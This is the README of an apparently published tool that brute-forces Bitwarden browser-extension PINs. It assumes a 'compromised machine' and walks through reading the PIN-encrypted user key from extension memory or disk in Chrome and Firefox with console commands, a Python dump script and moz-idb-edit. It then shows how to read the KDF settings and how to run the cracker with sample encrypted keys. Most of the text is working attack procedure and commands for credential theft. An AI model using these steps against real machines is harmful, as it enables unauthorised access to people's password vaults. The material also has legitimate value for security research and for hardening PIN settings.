 # Bitwarden PIN Bruteforce

**Brute force any Bitwarden PIN from storage or in-memory**

<img align="right" width="300" src="https://github.com/JorianWoltjer/bitwarden-pin-bruteforce/assets/26067369/6f6cbfb1-793b-4eb9-b4be-6a10b72b7c69">

When the Bitwarden browser extension is installed on a compromised machine, it is often still locked and requires the master password to be entered to decrypt the data. There is an option however to lock the vault with a PIN instead of a password, either *always* or *only after the master password has been entered once*.

You can imagine that passwords must be less protected because the only thing required to unlock the vault now is a 4-digit number. It still works offline meaning that the decryption can always be replicated without limits to brute-force the PIN. While Bitwarden tries its best to make it slow to crack such a PIN, there are only 10000 options which can be done in a few minutes even for slow password hashes.

This tool implements such a brute force algorithm in a multi-threaded CLI tool with support for all kinds of hashes. Depending on the length of the PIN, and algorithms used, it can take from a handful of minutes to a few hours. But if you check the hashing configuration carefully and put it into this tool, you can be sure that the hash will be cracked sucessfully in every scenario.

## Installation

```Bash
cargo install bitwarden-pin
```

Or **download** and **extract** a pre-compiled binary from the [Releases](https://github.com/JorianWoltjer/bitwarden-pin-bruteforce/releases) page. 

## Example

[![Bitwarden PIN Bruteforce - Example](https://asciinema.org/a/xoLRMg0ATo3Y69EOlx3frri7X.svg)](https://asciinema.org/a/xoLRMg0ATo3Y69EOlx3frri7X?autoplay=1)

# Usage - Steps

## 1. Finding PIN-Encrypted User Key

The cracking technique will involve finding a config variable on disk or in memory. This depends on whether the checkbox was turned on and will be called either PERSISTANT for an unchecked box meaning the key is stored on disk, and TRANSIENT for a checked box meaning the key is stored in memory. ([source](https://github.com/bitwarden/clients/blob/8d528c2d4a73fadcc047da2448e02b324770e2f7/libs/common/src/services/vault-timeout/vault-timeout-settings.service.ts#L11-L16))

Disk storage is a common storage method that most extensions use. These can be read from specific files using tools made for the browser. Memory storage is simply an object that other parts of the extension can access and needs to be read interactively in a debugger.

### Google Chrome: In Memory (GUI)

1. Right-click the Bitwarden extension on the right of the address bar
2. Select **Inspect popup**:

![Chrome inspect extension popup in context menu](https://github.com/JorianWoltjer/bitwarden-pin-bruteforce/assets/26067369/608a49f2-f30e-4a3e-b9c9-4a4bc9a55a50)

3. In the new DevTools window, run the following JavaScript code in the Console:

```js
chrome.extension.getBackgroundPage().bitwardenMain.memoryStorageService.store.get("state").accounts
```

4. This will log an object containing all in-memory accounts with their properties. Collapse the properties with the arrows and look for `settings.pinKeyEncryptedUserKeyEphemeral`.

> [!TIP]
> In this same console you can also read the disk storage through the following API:
> 
> ```js
> chrome.extension.getBackgroundPage().bitwardenMain.stateService.accountDiskCache._value
> ```

### Firefox: In Memory (GUI)

 1. Put `about:debugging` into the address bar to visit the debug settings
 2. Click **This Firefox**
 3. On the Bitwarden Extension, click **Inspect**
 4. In the opened Developer Tools console, run the following JavaScript:

```js
bitwardenMain.memoryStorageService.store.get("state").accounts
```

> [!TIP]
> In this same console you can also read the disk storage through the following API:
> 
> ```js
> bitwardenMain.stateService.accountDiskCache._value
> ```

### Google Chrome: On Disk

Check out https://bitwarden.com/help/data-storage/#on-your-local-machine for the locations where Browser extension data is stored for the target Operating System. On *Windows*, for example, this is at:  
`%LocalAppData%\Google\Chrome\User Data\Default\Local Extension Settings\nngceckbapebfimnlniiiahkandclblb`

Use the following Python script to read and dump the data:

```Python
import plyvel  # pip install plyvel
import json

BITWARDEN = r"C:\Users\user\AppData\Local\Google\Chrome\User Data\Default\Local Extension Settings\nngceckbapebfimnlniiiahkandclblb"

db = plyvel.DB(BITWARDEN)

activeUserId = json.loads(db.get(b"activeUserId"))
account = json.loads(db.get(activeUserId.encode()))

json.dump(account, open("account.json", "w"), indent=4, sort_keys=True)
```

In the created `account.json` file, find `settings.pinKeyEncryptedUserKey`. If this is empty, it may be an older version that used to be stored at `settings.pinProtected.encrypted`.

### Firefox: On Disk

Check out https://bitwarden.com/help/data-storage/#on-your-local-machine for the locations where Browser extension data is stored for the target Operating System. On *Windows*, for example, this is at:  
`%AppData%\Mozilla\Firefox\Profiles\[profile]\storage\default\moz-extension+++[UUID]^userContextId=[integer]`

There are some variables here that are different per system. `[profile]` can be found by just trying all the folders. `[UUID]` can be found at `about:debugging` in the Firefox address bar. Then press This Firefox and look for Internal UUID under the Bitwarden extension. This should be enough to find the path.  
Then the database file itself is stored at `\idb\3647222921wleabcEoxlt-eengsairo.sqlite` appended to it.

The [moz-idb-edit](https://gitlab.com/ntninja/moz-idb-edit) tool can be used to dump all data in a JSON format into a file:

```bash
pip install git+https://gitlab.com/ntninja/moz-idb-edit.git
moz-idb-edit --dbpath "C:\Users\user\AppData\Roaming\Mozilla\Firefox\Profiles\lm6vr7sd.default-release-1619096024431\storage\default\moz-extension+++b546b99d-f948-44ea-91e1-333828d5ac30^userContextId=4294967295\idb\3647222921wleabcEoxlt-eengsairo.sqlite" > account.json
```

## 2. Gathering the Cryprography Settings

While there are some default cryptography settings that the user key and pin are encrypted with, these have changed over time and can also be changed in the settings, so they may be different. To be sure you can check the Key Derivation Function (`kdf`) settings. `null` values are replaced with their defaults:

```Shell
$ jq . account.json | grep "kdf"

    "kdfType": 0,             # 0 = pbkdf2, 1 = argon2
    "kdfIterations": 100000,  # default: pbkdf2=600000, argon2=3
    "kdfMemory": null,        # default: argon2=64 (*1024 = 65536)
    "kdfParallelism": null,   # default: argon2=4
```

Source: https://github.com/bitwarden/clients/blob/main/libs/common/src/platform/enums/kdf-type.enum.ts

## 3. Cracking the PIN

When you find all the parameters and either the permanent or ephemeral key, you can brute force the PIN locally without the UI locking you out. Some basic implementations of this exist for older defaults, but I decided to make my own tool where you can pass all these parameters to crack it in an optimized and multithreaded program (this repository). Here are some examples:

Default settings (pbkdf2 with 600000 iterations), and email with `-m` for salt:

```bash
bitwarden-pin -e "2.P6TpPPpMf5zkHUfTplnocw==|KZ7/pR8ft+LwcjfXs2ym9hmxE7DLIeA9Kl+IPwTVCwLmbpkFtYKPWvK53DEDDrVUeYvz/rPcl3MEH3wXl200HCsV5ZbGLGVU4bha5Aw20fk=|+Y46Za3Oo63XRbvqLFz5cVuvbqMvBqopD16+8HV83mk=" \
              -m "tenire3448@fashlend.com"
```

Set custom iterations with `-i` to old version, will be 6x faster to crack:

```bash
bitwarden-pin -e "..." 
              -m "tenire3448@fashlend.com" pbkdf2 -i 100000
```

Set algorithm to newer argon2:

```bash
bitwarden-pin -e "2.FA4aPsq/5jKajc8tGqYKaQ==|CO/t9f1EQ4O5LL6O1anBAd1/4Hb+l4I32UMlW+3O7CoxTRXlEuLK5xvDCFmeRCYmylt206B22roFXycaRG3Z9fnN1aVVbBJ59qfCDEGusHw=|vmWmAb9kfqPPljRNhDMe+fDlwwat8XN5BZSsMAH8p8w=" \
              -m "tenire3448@fashlend.com" argon2
```

Set custom kdfConfig values for argon2 with `-i` for iterations, and `-m` for memory in MiB:

```bash
bitwarden-pin -e "2.FA4aPsq/5jKajc8tGqYKaQ==|CO/t9f1EQ4O5LL6O1anBAd1/4Hb+l4I32UMlW+3O7CoxTRXlEuLK5xvDCFmeRCYmylt206B22roFXycaRG3Z9fnN1aVVbBJ59qfCDEGusHw=|vmWmAb9kfqPPljRNhDMe+fDlwwat8XN5BZSsMAH8p8w=" \
              -m "tenire3448@fashlend.com" argon2 -i 3 -m 64 -p 6
```

Crack PIN at 100000 iterations with 6 digits (will take a long time):

```bash
bitwarden-pin -e "..." 
              -m "tenire3448@fashlend.com" pbkdf2 -i 100000 -p 6
```
